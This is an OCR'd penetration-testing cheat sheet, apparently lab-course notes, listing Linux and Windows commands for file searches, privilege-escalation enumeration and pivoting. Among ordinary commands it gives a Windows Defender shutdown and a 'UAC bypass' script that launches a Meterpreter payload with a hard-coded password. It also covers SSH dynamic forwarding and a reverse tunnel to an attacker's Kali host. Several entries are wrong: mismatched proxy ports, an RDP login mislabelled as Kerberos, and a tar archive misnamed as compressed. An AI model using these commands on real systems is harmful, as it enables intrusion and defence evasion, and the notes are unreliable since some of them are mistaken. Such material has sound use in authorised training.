 

-------------------------------------------------------------------------------------------------------------------------------------


USEFUL LINUX COMMANDS

    Find file by name:
       •  find /home/username/ -name "*.err"

    Find writable directories:
       • find / -perm -o+w 
       • find . -perm -o+w -exec chmod +t {} +
       • find / -writable
       •  find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; | grep drwxrwsr 

    pipe to clipboard
       •  ls | xclip -selection c

    tar
       •  create
             ▪  tar -cvf linux_priv_esc.tar.gz /root/Desktop
       •  unzip
             ▪ tar xvzf linux_priv_esc.tar.gz

    kerbros auth
       •  xfreerdp /u:alice /v:10.11.1.50

   
-------------------------------------------------------------------------------------------------------------------------------------


USEFUL WINDOWS COMMANDS

    Find log files in directory
       •  dir /s *log* 

    Process
       • tasklist
       • taskkill /F /PID pid_number


    Disable windows defender:
       •  sc stop WinDefend


    UAC bypass:
       •  echo $username = "alice" > run.ps1
       •  echo $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force >> run.ps1
         echo $mycreds = New-Object System.Management.Automation.PSCredential ("$username",$secpasswd) >> run.ps1
       •  echo Start-Process veil_meterpreter.bat  -Credential ($mycreds) >> run.ps1

       • powershell -ExecutionPolicy Bypass -File run.ps1 
   

-------------------------------------------------------------------------------------------------------------------------------------


PIVOTING

    Dynamic Port Forwading:
          • SSH 
                  ▪  ssh -D 9000 root@$ip
                  ▪ set proxychains.conf to 127.0.0.1 1080
                  ▪ proxy chains nc -nv 10.11.0.106
           • Reverse SSH from windows to my kali
                  ▪ systemctl start ssh.service
                  ▪putty.exe -ssh root@10.11.0.106 
